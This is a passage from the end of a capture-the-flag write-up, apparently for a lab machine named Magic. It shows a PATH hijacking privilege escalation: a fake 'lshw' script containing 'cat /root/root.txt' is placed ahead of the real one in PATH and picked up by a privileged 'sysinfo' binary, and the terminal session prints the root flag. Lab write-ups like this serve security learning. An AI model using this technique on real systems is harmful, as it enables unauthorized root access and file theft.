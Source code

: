     _ZNSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEEpLEPKc(0x7ffe1eb20c20, 0x7ffe1eb20b70, 0x7ffe1eb20b70, 0x6974706972637365)                  = 0x7ffe1eb20c20
    fgets("================================"..., 128, 0x563a9c8f6280)                                                                                = 0x7ffe1eb20b70
    _ZNSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEEpLEPKc(0x7ffe1eb20c20, 0x7ffe1eb20b70, 0x7ffe1eb20b70, 0x3d3d3d3d3d3d3d3d)                  = 0x7ffe1eb20c20

So we simply exploit this `PATH` vulnerability and get the root flag.

    :::text
    theseus@ubuntu:/var/www/Magic/images/uploads$ cd /tmp/
    cd /tmp/
    theseus@ubuntu:/tmp$ mkdir ioio
    mkdir ioio
    theseus@ubuntu:/tmp$ cd ioio
    cd ioio
    theseus@ubuntu:/tmp/ioio$ echo 'cat /root/root.txt' > lshw
    echo 'cat /root/root.txt' > lshw
    theseus@ubuntu:/tmp/ioio$ PATH=./:$PATH
    PATH=./:$PATH
    theseus@ubuntu:/tmp/ioio$ chmod +x lshw
    chmod +x lshw
    theseus@ubuntu:/tmp/ioio$ sysinfo
    sysinfo
    ====================Hardware Info====================
    a06f37dc581bc81a9e688040af40daaf

    ====================Disk Info====================
    Disk /dev/loop0: 44.9 MiB, 47063040 bytes, 91920 sectors
    Units: sectors of 1 * 512 = 512 bytes
    Sector size (logical/physical): 512 bytes / 512 bytes
    I/O size (minimum/optimal): 512 bytes / 512 bytes


    Disk /dev/loop1: 149.9 MiB, 157192192 bytes, 307016 sectors
    Units: sectors of 1 * 512 = 512 bytes
    Sector size (logical/physical): 512 bytes / 512 bytes
    I/O size (minimum/optimal): 512 bytes / 512 bytes


(The flag is in the `Hardware Info` part in the first lines of the `sysinfo` output.)

# Wrapping up

Quit an easy but pleasant box. I will recommend this box to beginners as I
really enjoyed it.
